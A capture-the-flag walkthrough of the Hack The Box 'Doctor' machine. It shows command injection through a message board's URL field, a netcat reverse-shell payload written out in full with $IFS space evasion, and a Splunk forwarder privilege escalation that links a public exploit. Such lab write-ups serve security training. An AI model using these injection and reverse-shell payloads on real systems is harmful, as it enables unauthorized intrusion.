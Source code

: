 ```yaml
---
title:  Doctor HTB HTB Writeup
subtitle: "Doctor Box walkthrough by fuxsocy"
date:   2021-02-06 17:00:00 +0530
categories: ["htb"]
banner_img: /img/Doctor.png
---
```



## Nmap

As always we start by scanning for open ports using nmap.
![nmap](https://user-images.githubusercontent.com/16364370/102866199-c937e500-442e-11eb-942d-de51c4b99faa.png)
3 ports are available _22(ssh)_, _80(http)_, _8089(ssl/https)_.

#### 80 http

Once I visit the ip on my browser I get a webpage.

![webpage](https://user-images.githubusercontent.com/16364370/102866215-cc32d580-442e-11eb-8529-461037e71fde.png)

The only information I get from this is a hostname `doctors.htb` from the *send us a message* section. I enter this on my hosts file.

![Login_page_doctors](https://user-images.githubusercontent.com/16364370/102866198-c89f4e80-442e-11eb-8b94-12c50aab8cf4.png)

I have a login page, but also I have the functionality to register. After registering:

![account_created_time_limit](https://user-images.githubusercontent.com/16364370/102866188-c6d58b00-442e-11eb-9a13-f82765935e9b.png)

My app does log me in automatically. Also there is a message which let's me know that a time limit of twenty minutes for my account is in place. Using the `New Message` button we can send a message to something which looks like a board.

![send_message](https://user-images.githubusercontent.com/16364370/102866208-cb01a880-442e-11eb-8f76-89c0490f1ce0.png)

After providing a url as the `Content` to an url which is mine.

![testmessage](https://user-images.githubusercontent.com/16364370/102866213-cb9a3f00-442e-11eb-9a52-dfdced4fa371.png)

![gotrequestback](https://user-images.githubusercontent.com/16364370/102866193-c806b800-442e-11eb-8896-8176bd541271.png)

And I got a request back, which means we have something like a command injection. Let's try to execute a wget command by using `$(wget http://10.10.14.14)`
But I get `link posted is not valid`.
![link_not_valid](https://user-images.githubusercontent.com/16364370/102866196-c89f4e80-442e-11eb-8e98-46abf8ff3232.png)
Let's try to execute a command using `http://IP/$(id)` so we get back the result of id as the requested file.

![requested_back_id](https://user-images.githubusercontent.com/16364370/102866206-ca691200-442e-11eb-8855-d117a3aaa1e1.png)

Now I can execute commands inside `$()`. Let's execute a reverse shell.

![errorreverseshell](https://user-images.githubusercontent.com/16364370/102866191-c76e2180-442e-11eb-87e0-a0becbf83712.png)

Nothing happend. I will try to add $IFS instead of spaces, but again it didn't work, I had to find the nc binary inside the machine and then use single quote to get it work. This is the complete command: `http://10.10.14.14/$(/usr/bin/nc.traditional$IFS-e$IFS/bin/sh$IFS'10.10.14.14'$IFS'7979')`

![shell](https://user-images.githubusercontent.com/16364370/102866210-cb01a880-442e-11eb-957f-82acce607d89.png)

## User
After the shell I try to look for passwords to escalate to another user, but after a little bit I found inside /var/log/apache2/ there is a backup file. I find a password inside of it.

![password_found](https://user-images.githubusercontent.com/16364370/102866201-c9d07b80-442e-11eb-85c6-726d02fd4acb.png)

I use it with shaun which gives me user.txt.

## Root

Inside /opt/ folder I find `splunkforwarder`. Searching for this I find that this forwarder is used to collect data and then forward it to the splunk software, which seems to be something like a visualization software. Reading `README-splunk.txt` I get the version but didn't manage to find an exploit for the exact version.I also find github repo `https://github.com/cnotin/SplunkWhisperer2` which has a script to exploit this. I get the [local](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_local.py) exploit and upload it to the target machine. I get an error about not found modules, and I can't installed them using pip. I try the [remote](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_local.py) exploit on my local machine.
I create a file inside /tmp/ which includes a reverse shell and then execute the script. Also I listen on the specified port.

![privesc](https://user-images.githubusercontent.com/16364370/102866204-c9d07b80-442e-11eb-89e3-8c82c53d16c8.png)

And I get root access.

![root](https://user-images.githubusercontent.com/16364370/102866207-ca691200-442e-11eb-8373-3d18c07e531d.png)

